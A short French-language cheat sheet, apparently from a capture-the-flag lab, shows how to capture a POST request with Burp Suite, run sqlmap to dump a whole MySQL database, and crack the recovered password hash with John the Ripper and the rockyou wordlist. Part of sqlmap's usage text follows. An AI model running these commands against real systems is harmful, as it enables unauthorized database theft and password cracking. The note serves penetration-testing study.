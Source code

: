 # SQLmap

### Pour dump la base:

Capturer la requete avec BURPSUITE

ex:

POST /portal.php HTTP/1.1\
Host: 10.10.198.217\
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0\
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8\
Accept-Language: en-US,en;q=0.5\
Accept-Encoding: gzip, deflate\
Referer: [http://10.10.198.217/portal.php](http://10.10.198.217/portal.php)\
Content-Type: application/x-www-form-urlencoded\
Content-Length: 15\
Origin: [http://10.10.198.217](http://10.10.198.217/)\
DNT: 1\
Connection: close\
Cookie: PHPSESSID=p3pgi397qkqvirinfa8umi9d22\
Upgrade-Insecure-Requests: 1

searchitem=test

### Puis:

sqlmap -r request.txt --dbms=mysql --dump

**-r** uses the intercepted request you saved earlier\
**--dbms** tells SQLMap what type of database management system it is\
**--dump** attempts to outputs the entire database

Récuperation du hash du passwd puis :

john agent47.txt --wordlist=/home/vincent/hack/wordlists/rockyou.txt --format=Raw-SHA256

### ou

sqlmap -r req.txt --current-user --risk 3 --dump-all

### Usage

`Usage: python sqlmap.py [options]`

`Options:`\
`-h, --help Show basic help message and exit`\
`-hh Show advanced help message and exit`\
`--version Show program's version number and exit`\
`-v VERBOSE Verbosity level: 0-6 (default 1)`

`Target:`\
`At least one of these options has to be provided to define the`\
`target(s)`
